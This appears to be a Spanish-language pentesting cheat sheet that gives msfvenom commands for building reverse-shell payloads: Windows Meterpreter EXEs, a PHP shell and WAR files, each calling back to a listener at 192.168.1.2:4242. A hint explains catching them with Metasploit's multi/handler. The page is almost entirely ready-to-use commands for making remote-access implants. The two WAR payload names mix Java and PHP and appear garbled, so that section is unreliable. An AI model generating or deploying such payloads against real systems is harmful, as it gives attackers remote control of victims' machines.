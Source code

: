 # 💉 Msfvenom

## Generación de payloads

### Reverse Shell TCP con EXE

Para generar un payload, debemos de usar la siguiente sintaxis:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4242 -f exe -o pwned.exe
```

{% hint style="info" %}
Para ponerse a la escucha con metasploit a la espera de la ejecución del payload, deberemos usar la herramienta interna de metasploit llamada "multi handler".&#x20;

Para ello, ejecutamos metasploit y una vez con el prompt, escribimos "`use /multi/handler`". Para poder usarlo, deberemos ejecutar LHOST y LPORT
{% endhint %}

{% hint style="warning" %}
Puede que nos de un error de arquitectura, en este caso, usaremos este comando en el cual se ha cambiado el payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4242 -f exe -o pwned.exe
```
{% endhint %}

### Reverse Shell TCP con PHP

Para generar un payload, debemos de usar el siguiente comando:

```bash
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=4242 -f raw > pwned.php
```

### Reverse Shell TCP con WAR

Para generar un payload, debemos de usar el siguiente comando:

```bash
msfvenom -p java/shell_reverse_php LHOST=192.168.1.2 LPORT=4242 -f war > pwned.war
```

#### Otra opción

```bash
msfvenom -p java/jsp_shell_reverse_php LHOST=192.168.1.2 LPORT=4242 -f war > pwned.war
```
